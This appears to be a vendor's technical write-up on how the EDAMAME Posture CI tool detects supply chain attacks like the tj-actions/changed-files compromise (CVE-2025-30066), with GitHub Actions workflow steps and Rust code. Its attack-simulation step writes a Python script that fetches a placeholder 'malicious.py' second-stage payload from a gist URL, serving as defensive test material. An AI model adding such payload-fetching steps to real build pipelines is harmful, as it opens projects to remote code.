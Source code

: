 # Technical Analysis: EDAMAME Protection Against CVE-2025-30066

This document provides a detailed technical explanation of how EDAMAME Posture can detect and prevent supply chain attacks like the one described in CVE-2025-30066 (tj-actions/changed-files compromise).

## The Supply Chain Attack Vector

The attack on tj-actions/changed-files involved:

1. Compromising the maintainer's GitHub account credentials
2. Adding malicious code to a popular GitHub Action used by thousands of repositories
3. Making unauthorized network requests to gist.githubusercontent.com to fetch a second-stage payload
4. Accessing and exfiltrating sensitive repository secrets

This type of attack is particularly dangerous because:
- It uses trusted tools in the build pipeline
- It operates through normal-looking behavior (network requests)
- It can access all secrets available to the GitHub Action
- It's difficult to detect without network monitoring

## How EDAMAME Posture Detects These Attacks

EDAMAME Posture employs a "zero trust" approach to network traffic in CI/CD environments:

1. **Baseline Capture**: It first establishes a baseline of legitimate network traffic
2. **Whitelist Generation**: It converts observed traffic into a precise whitelist
3. **Continuous Monitoring**: It monitors all network traffic during builds
4. **Automatic Detection**: It flags any connections not in the whitelist
5. **Pipeline Integration**: It fails builds when violations are detected

## The Detection Process in Detail

Our [CVE-2025-30066.yml](.github/workflows/CVE-2025-30066.yml) workflow shows this protection in action:

### 1. Setup and Baseline Phase

```yaml
- name: Setup EDAMAME Posture
  run: |
    # Download and install EDAMAME Posture
    curl -LO https://github.com/edamametechnologies/edamame_posture_cli/releases/download/v0.9.21/edamame_posture-0.9.21-x86_64-unknown-linux-gnu
    chmod +x edamame_posture-0.9.21-x86_64-unknown-linux-gnu
    sudo mv edamame_posture-0.9.21-x86_64-unknown-linux-gnu /usr/local/bin/edamame_posture
    
    # Start EDAMAME in disconnected mode with LAN scanning and GitHub Linux whitelist
    sudo edamame_posture background-start-disconnected true github_linux
```

This starts EDAMAME Posture in disconnected mode (no external service needed) with network monitoring enabled. The `github_linux` parameter provides a base whitelist for standard GitHub Actions runners.

### 2. Legitimate Traffic Capture

```yaml
- name: Run legitimate build process
  run: |
    # Install dependencies
    pip install requests
    
    # Run the build script
    python build.py

- name: Create whitelist from legitimate traffic
  run: |
    # Create a custom whitelist from the observed network activity
    sudo edamame_posture create-custom-whitelists > whitelist.json
    
    # Apply the whitelist for future monitoring
    sudo edamame_posture set-custom-whitelists "$(cat whitelist.json)"
```

During this phase, EDAMAME captures all legitimate network connections that occur during the normal build process. It then creates a whitelist that includes:
- Connections to Python package repositories (PyPI)
- Standard GitHub runner communications
- Any other expected network traffic

### 3. Attack Simulation

```yaml
- name: Create malicious build script (simulating CVE-2025-30066)
  run: |
    # Create a Python script that simulates the malicious behavior from CVE-2025-30066
    cat > build_malicious.py << EOF
    import requests
    
    # Simulate the attack vector - connect to gist.githubusercontent.com
    # This is similar to what the compromised tj-actions/changed-files action did
    print("Attempting to fetch malicious payload from gist.githubusercontent.com...")
    response = requests.get("https://gist.githubusercontent.com/example/123456/raw/malicious.py")
    EOF

- name: Run build process with simulated malicious behavior
  run: |
    # Run the malicious build script
    python build_malicious.py
```

This simulates exactly what happened in the tj-actions/changed-files attack - a request to gist.githubusercontent.com that wasn't part of the legitimate traffic pattern.

### 4. Detection and Prevention

```yaml
- name: Check for whitelist violations (should detect the malicious connection)
  id: whitelist_check
  continue-on-error: true
  run: |
    # This should exit with non-zero code because the whitelist was violated
    sudo edamame_posture get-sessions
    echo "exit_code=$?" >> $GITHUB_OUTPUT

- name: Verify detection
  run: |
    if [ "${{ steps.whitelist_check.outputs.exit_code }}" != "0" ]; then
      echo "✅ SUCCESS: EDAMAME detected unauthorized connection to gist.githubusercontent.com"
    else
      echo "❌ FAILURE: EDAMAME did not detect the unauthorized connection"
      exit 1
    fi
```

When `get-sessions` is called, EDAMAME checks all network traffic against the whitelist and returns a non-zero exit code if any violations are found. This would cause a real CI/CD pipeline to fail, preventing the attack from succeeding.

## Technical Implementation

EDAMAME Posture's network monitoring relies on several components:

1. **Network Capture Engine**: Monitors all outbound connections from the CI/CD environment
2. **Whitelist Database**: Maintains patterns of allowed connections with attributes like:
   - Domain names and patterns
   - IP addresses and CIDR ranges
   - Ports and protocols
   - Request patterns
3. **Pattern Matching Logic**: Evaluates each connection against the whitelist rules

The key function in [background.rs](../src/background.rs) shows how this check is implemented:

```rust
pub fn background_get_sessions(local_traffic: bool, zeek_format: bool) -> i32 {
    // ... [code that retrieves and displays sessions]

    // Check whitelist conformance
    let whitelist_conformance = match rpc_get_whitelist_conformance(
        &EDAMAME_CA_PEM,
        &EDAMAME_CLIENT_PEM,
        &EDAMAME_CLIENT_KEY,
        &EDAMAME_TARGET,
    ) {
        Ok(conformance) => conformance,
        Err(e) => {
            eprintln!("Error getting whitelist conformance: {}", e);
            return ERROR_CODE_SERVER_ERROR;
        }
    };
    if !whitelist_conformance {
        eprintln!("Some connections failed the whitelist check");
        return ERROR_CODE_MISMATCH;
    } else {
        return 0;
    }
}
```

This returns an error code when network traffic violates the whitelist, which is then used to fail the CI/CD pipeline.

## Benefits Over Traditional Security Approaches

EDAMAME's approach offers several advantages over traditional security methods:

1. **No Signatures Needed**: Unlike antivirus or IDS systems, no prior knowledge of the attack is required
2. **Zero Configuration**: Simply capture legitimate traffic and use it to create whitelists
3. **Minimal False Positives**: By learning from actual legitimate traffic patterns
4. **Preventative, Not Just Detective**: Stops attacks before they can succeed
5. **CI/CD Integration**: Designed specifically for protecting build pipelines

By implementing this approach, organizations can prevent not just known attacks like CVE-2025-30066, but also future novel supply chain attacks that use similar network-based exfiltration methods. 